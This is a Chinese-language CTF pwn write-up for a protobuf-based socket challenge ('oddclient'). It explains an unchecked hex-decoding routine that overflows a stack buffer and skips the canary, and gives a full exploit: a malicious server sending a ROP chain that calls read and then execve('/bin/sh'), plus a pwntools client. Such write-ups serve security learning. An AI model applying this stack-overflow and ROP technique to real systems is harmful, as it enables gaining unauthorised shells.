




# 比赛当天情况
由于某些问题，我当时进不去我们的文档，赛题也是在群里找的，一直不清楚大部队当时做得情况，群里也没有人交流pwn的题目，导致我一个人做得很尴尬，看了3-4个小时就看不下去开摆了
# 题目详情
## .proto文件和数据结构处理
比赛当天.proto文件倒没有给我造成特别大的阻碍，因为我记得之前碰到过几次这东西，作用就是把c/c++/python的数据结构转化为统一结构的二进制字节流。所以经过简单的gpt询问，大概步骤是这样的。
1. `pip install protobuf`
2. `protoc --python_out=. example.proto`这条命令会由`example.proto`来生成一个python文件，其中的代码可以帮助你来便捷的使用该.proto文件中描述的数据结构
3. 在执行2的时候我遇到问题`command not found: protoc`，简单搜索之后在[stack_over_flow](https://stackoverflow.com/questions/47704968/protoc-command-not-found-linux)的一个回答找到了答案:`apt install protobuf-compiler`即可

这是题目所给的.proto文件
```.proto
syntax = "proto3";

enum Opcode {
    OP_HELLO = 0;
    OP_SESSION = 1;
    OP_MSG = 2;
    OP_END = 3;
}

message Message {
    int32 magic = 1;
    int32 seq = 2;
    Opcode opcode = 3;
    bytes cont = 4;
}
```

在`protoc --python_out=. example.proto`之后得到一个`example.py`文件，其中的内容并不是很重要，我们只需要在后续的程序里`import example.py`即可便捷的创建Message对象。
## 该题特殊的交互方式
这题给的可执行文件是客户端，在执行时输入一个`ip`和一个`port`即可让该程序向`ip:port`发送socket请求，主要的交互都发生在这个socket请求里。

这就意味着我们不仅需要像常规的pwn题一样编写直接与二进制程序交互的脚本，还需要编写服务端程序。gpt给了我接受socket链接和使用proto处理数据结构的示例
```python
import socket
import odd_pb2

def start_server(host, port):
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as server_socket:
        server_socket.bind((host, port))
        server_socket.listen()
        print(f"Server started, listening on {host}:{port}")

        while True:
            client_socket, client_address = server_socket.accept()
            with client_socket:
                print(f"Connection from {client_address}")
                data = client_socket.recv(1024)
                if not data:
                    break
                
                # 创建了一个 msg 对象
                msg = odd_pb2.Message()
                # 用接收到的 data 对象来赋值 msg 对象
                msg.ParseFromString(data)
                print(f"Received data: {msg}")

                # 在这里用 msg 对象响应客户端
                response_data = msg.SerializeToString()
                client_socket.sendall(response_data)

if __name__ == "__main__":
    HOST = '127.0.0.1'  # or '0.0.0.0' for all available interfaces
    PORT = 12345  # Replace with the port you want to use
    start_server(HOST, PORT)
```
## 题目漏洞
说了半天终于到了题目漏洞了，这也是当天比赛卡住我的地方。
该题的二进制程序在与服务端建立socket链接后会有四次的来回通讯，其中每次都有对`Message`对象中magic数，opcode的效验，并且除了第三次的cont可以任意由我们编写之外，其余每次的cont都必须固定并且由一样的效验。
问题就出在这第三次的cont(其实想想也很明显了，一般都是cont这种有大额输入的地方才好动手脚藏点东西，当时也想到了可能时cont但是没有细想，可惜了)

在`processResponseContent`函数中，第三次的cont会被传入`unhex`函数(如下图所示)

在unhex函数里面的操作是这样的，我太蠢了qwq。比赛当天没看懂什么意思(虽然后来也没看懂，半懂不懂的)。
于是询问gpt，其实就是把16进制的**字符**换成16进制**字节**储存，并且跳过非法字符，把最终结果放在`char* a2`上，比如我输入的数据是'1244abdfhhhhaaaa'，那么经过`unhex`函数，在`char* a2`上的形式就是
```
'\x12\x44\xab\xdf' + '原来的两个字节的数据' + '\xaa\xaa'
```
并且在其中没有对于长度的检查！(为什么我当时就没有反应过来www)


那么就意味着我们可以在`unhex中的char* a2`上写入任意长度的数据。

一步步追踪得到指针a2指向的其实是`check_opmsg_sendrecv`函数中的一个栈上变量。

## 漏洞利用
既然我们可以在该函数的栈上变量读入任意可控长度，那就直接栈溢出就好了，这题的保护没有PIE，有canary。
但是canary可以通过读入非法字符来跳过写入。
接下来就是常规的rop了，具体细节可以看我的exp，然后在本地调试一下。
## exp
exp分为三个部分
1. 攻击赛方实例时需要把server.py提前在拥有公网ip的服务器上布置好，并且安全组开放使用的端口
2. client.py指定该公网ip的服务器并且选择对应端口
3. odd_pb2.py则是给server.py使用的模块
```python
# server.py
import socket
import odd_pb2

def recv(client_socket):
    data = client_socket.recv(1024)
    if not data:
        return 0
    message = odd_pb2.Message()
    message.ParseFromString(data)
    print(f"Received data: {message}")
    return 1

def send(client_socket,magic,seq,opcode,cont):
    send = odd_pb2.Message()
    send.magic = magic
    send.seq = seq
    send.opcode = opcode
    send.cont = cont
    send_data = send.SerializeToString()
    client_socket.sendall(send_data)

def start_server(host, port):
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as server_socket:
        server_socket.bind((host, port))
        server_socket.listen()
        print(f"Server started, listening on {host}:{port}")
        
        while(True):
            client_socket, client_address = server_socket.accept()
            print(f"Connection from {client_address}")
            with client_socket:
                recv(client_socket)
                send(client_socket,875704370,0x13370001,0x0,b'helloOk')
                recv(client_socket)
                send(client_socket,875704370,0x13370003,0x1,b'sessionOk')
                recv(client_socket)
                syscall = 0x65b1C0
                rax = 0x54688a
                rdi = 0x4146a4
                rsi = 0x59a4dc
                rdx_rbx = 0x6615aa

                payload = b'gggggggg'*0x10a
                payload +=b'8a68540000000000' # rax = 0
                payload +=b'0000000000000000' 
                payload +=b'a446410000000000' # rdi = 3
                payload +=b'0000000000000000' 
                payload +=b'dba4590000000000' # rsi = 0x763128
                payload +=b'2831760000000000'
                payload +=b'0000000000000000'
                payload +=b'ab15660000000000' # rdx = 0x100
                payload +=b'0010000000000000'
                payload +=b'0000000000000000'
                payload +=b'c0b1650000000000' # syscall_ret

                payload +=b'8a68540000000000' # rax = 0x3b
                payload +=b'3b00000000000000' 
                payload +=b'a446410000000000' # rdi = 0x763128
                payload +=b'2831760000000000'
                payload +=b'dba4590000000000' # rsi = 0
                payload +=b'0000000000000000'
                payload +=b'0000000000000000'
                payload +=b'ab15660000000000' # rdx = 0
                payload +=b'0000000000000000'
                payload +=b'0000000000000000'
                payload +=b'c0b1650000000000' # syscall_ret

                send(client_socket,875704370,0x13370005,0x2,payload)
                recv(client_socket)

if __name__ == "__main__":
    HOST = '0.0.0.0'
    PORT = 12345
    start_server(HOST, PORT)
```
```python
# client.py
from pwn import *
context(
    terminal = ['tmux','splitw','-h'],
    os = "linux",
    arch = "amd64",
    # arch = "i386",
    log_level="debug",
)
def debug(io):
    gdb.attach(io,
'''
b *0x54688a
'''
)

io = process("./oddclient")
debug(io)
io.sendlineafter(b'ip: ','0.0.0.0')
io.sendlineafter(b'port: ','12345')
io.sendline(b'/bin/sh\x00')

io.interactive()
```
```python
# odd_pb2.py
# -*- coding: utf-8 -*-
# Generated by the protocol buffer compiler.  DO NOT EDIT!
# source: odd.proto
"""Generated protocol buffer code."""
from google.protobuf.internal import builder as _builder
from google.protobuf import descriptor as _descriptor
from google.protobuf import descriptor_pool as _descriptor_pool
from google.protobuf import symbol_database as _symbol_database
# @@protoc_insertion_point(imports)

_sym_db = _symbol_database.Default()


DESCRIPTOR = _descriptor_pool.Default().AddSerializedFile(b'\n\todd.proto\"L\n\x07Message\x12\r\n\x05magic\x18\x01 \x01(\x05\x12\x0b\n\x03seq\x18\x02 \x01(\x05\x12\x17\n\x06opcode\x18\x03 \x01(\x0e\x32\x07.Opcode\x12\x0c\n\x04\x63ont\x18\x04 \x01(\x0c*>\n\x06Opcode\x12\x0c\n\x08OP_HELLO\x10\x00\x12\x0e\n\nOP_SESSION\x10\x01\x12\n\n\x06OP_MSG\x10\x02\x12\n\n\x06OP_END\x10\x03\x62\x06proto3')

_builder.BuildMessageAndEnumDescriptors(DESCRIPTOR, globals())
_builder.BuildTopDescriptorsAndMessages(DESCRIPTOR, 'odd_pb2', globals())
if _descriptor._USE_C_DESCRIPTORS == False:

  DESCRIPTOR._options = None
  _OPCODE._serialized_start=91
  _OPCODE._serialized_end=153
  _MESSAGE._serialized_start=13
  _MESSAGE._serialized_end=89
# @@protoc_insertion_point(module_scope)
```

# PS
我的域名过备案啦，太不容易了，这一两天应该就能搞定了。
